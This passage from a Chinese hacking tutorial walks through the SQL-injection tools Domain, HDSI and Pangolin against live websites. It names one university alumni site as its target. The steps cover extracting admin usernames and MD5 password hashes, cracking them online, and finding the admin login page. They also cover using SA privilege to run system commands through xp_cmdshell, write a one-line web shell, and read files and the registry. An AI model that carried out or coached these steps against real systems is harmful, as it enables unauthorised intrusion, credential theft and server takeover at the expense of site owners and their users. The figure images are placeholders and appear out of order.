

图14

经过猜解，发现了一个名为admin的表。通过名字判断，这很可能是存放管理员账号信息的表。选中admin这个表，然后点“猜解列名”来看看admin表中都存在哪些常用列名，结果发现了三个列名：username、password、id。根据英文意思可以理解为用户名、密码和编号。选中这三个列，然后点“猜解内容”来具体猜解username、password、id这三个列中的内容，稍等一会儿，猜解完成了，结果如图16所示。


图15



图16

一共猜解到了12条记录，用鼠标选中某条记录，下面就会显示详细内容。另外，在软件的右下方也会显示猜解出的所有内容，我们可以复制出来对结果进行保存。管理员的密码是经过MD5加密的，可以用在线破解网站（比如 http://www.cmd5.com）进行破解。12条记录破解出一两个管理员密码应该不是问题。破解出管理员密码后，可以使用Domain自带的“管理员入口扫描”功能来寻找网站后台登录地址，可惜的是没有扫描出结果来，很可能是管理员更改了后台登录地址，如图17。

### 四、非常实用的HDSI

有时候，前面三款注入工具都不能进行注入，这时用一下HDSI说不定就会有意外的收获。比如，一个注入点，前面三款注入工具都显示注入点的权限为public，而使用HDSI进行检测后却为SA权限，并且可以执行命令。还有，啊D检测到一个SA注入点，用啊D和NBSI都不可以执行命令，但使用HDSI的“高级命令”来执行就有可能会成功。当然，这并不能说明HDSI的命令执行功能比 NBSI 的还强，因为很多时候一个注入点在 NBSI 里可以执行命令，放到 HDSI 里却不能执行，显示没找到注入漏洞或权限为 public。HDSI 只是前面三款注入工具的有力补充。另外，前面三款工具都不支持针对 PHP 程序的注入，而 HDSI 却支持，如图18。



尽管啊D也能批量找到 PHP 程序的注入点，但却不能对 PHP 程序的注入点进行注入，所以通过啊D寻找 PHP 注入点，然后再使用 HDSI 进行注入，是个不错的选择。

### 五、注入工具新锐——Pangolin

前面介绍的四款注入工具编写时间都比较早（05年左右），虽然堪称经典，但面对有些注入点还是无能为力。很明显的一个例子就是支持的数据库格式太过于单一，只支持 Access 和 MSSQL 这两种数据库。而这几年来，随着人们知识水平的提高和对 SQL 注入攻击研究的深入，以前很多认为不能做的事情都已经可以做到了。比如以前很少见到针对 Oracle 数据库的注入，而现在针对 Oracle 数据库的注入方法已经相当普及了。Pangolin 就是去年出现的一款新型 SQL 注入工具。它集成了近几年最新的 SQL 注入技术，支持的数据库类型更全面，除了支持 Access 和 MSSQL 数据库外，还支持对 Mysql、Oracle、DB2、Informix、PostgreSQL、Sqlite3、Sybase 数据库的注入。Pangolin 目前最新的版本是 2.3.2.952，不过本文我仍然以 1.3.0.630 版本来进行介绍，因为新的 2.* 免费版在功能上有一些限制，比如 1.3 版可以对 Mysql 数据库进行注入，但 2.3 版就不可以。Pangolin 1.3 运行后的界面如图19所示。





“怎么是英文的界面啊，看不懂。”台下的一小叉子立马不满意了。大家别急，看我来把软件“变成”中文的。在软件主界面中选择“Options”，然后在弹出的对话框中 Language 选择 Chinese，如图20，然后点“Apply”应用设置后，软件的界面就会变成中文的了，如图21。

在使用软件前，来看下软件的设置。点击“配置”按钮打开配置界面，首先来看“HTTP”选项，在这里可以自定义 HTTP 标题头；“预登录”可以在需要验证的情况下照样注入；在“代理”选项下可以设置使用代理，方便检测时的隐蔽或突破某种限制，如图22。

在“扫描”选项里可以对扫描时的一些参数进行设置，比如“扫描搜索型”默认是没有选中的，如果要检测搜索型注入点，就需要把它选上。再比如在这里可以设置检查字段的数目时是使用 ORDER BY 还是使用 UNION SELECT，如图23。在“高级”选项下可以对软件的语言等进行设置。设置完成后，下面来看看 Pangolin 都有哪些功能吧。我们通过对“http://alumni.nchu.edu.tw/news-detail.asp?ctype=news&autono=125”这个注入点的检测来介绍 Pangolin 的功能。把注入点填到“网址”栏中，点击后面的“检查”按钮开始检测，检测结果如图24所示。



图22



图20



图23

显示注入类型为数字型，数据库类型为 MSSQL。下面还有许多功能按钮，那是通过这个注入点可以实现的功能（由于功能太多，功能按钮一页都显示不完，可以通过点击软件右上方那个向右的小箭头来看到另外两个当前没有显示出来的功能按钮：“远程数据转储”和“MSSQL 原始语句执行”）。首先来看“信息”，在这里可以获得很多有用的信息。Version 可以显示数据库的版本；Db Name 对应的是当前数据库的名称；Server Name 是数据库服务器的名称；System User 是系统用户；Current User 是当前数据库用户；Privilege 是当前数据库用户连接数据库的权限；Databases 可以列出都有哪些数据库；Drivers 可以列出数据库服务器有哪些磁盘；Localgroups 可以列出数据库服务器上有哪些用户组。如果想得到所有信息，可以点击“选择所有”，然后点击“开始”按钮就行了，获取到的信息如图25所示。通过获取到的信息我们知道当前数据库为 alumni，当前用户连接数据库的权限为 systemadmin，也就是说还是一个 SA 权限注入点。



图21



图24



图25

“获取数据”可以对数据库中的信息进行猜解，依次点击“获取表”、“获取列”、“获取数据”来获取数据库中存在的指定信息，如图26。“命令”可以在 SA 权限时执行一些系统命令，Pangolin 提供了四种执行命令的格式，分别是 xp_cmdshell、sp_oa***、sp_***_job、sandboxmode（沙盒模式），输入想要执行的命令后点“执行”按钮就可以执行了，如图27。

如果用一种命令执行方法执行不成功，还可以尝试换一种执行命令的方法，也可以试试“恢复 cmdshell”。“写文件”可以在知道网站物理路径的情况下写一个一句话木马到网站目录下。“注册表操作”可以读取注册表的指定键值。“文件管理”是一个强化版的列目录，先点击“磁盘”按钮获得数据库服务器有几个磁盘，然后直接双击列出来的某个磁盘盘符，就会列出该磁盘根目录下的文件夹和文件了。同理，双击一个目录就会列出该目录下子目录和文件。如果有文件的内容是以文本的形式保存的，比如 .txt、.bat、.ini 文件等，可以选中这个文件后点“读取”来读出该文件的内容，如图28。“下载”功能可以下载一个小文件到数据库服务器上（不能大于 8000 字节），“远程数据转储”可以在知道数据库连接密码的情况下直接读取远程数据库的内容，“MSSQL 原始语句执行”可以执行一些 SQL 查询。

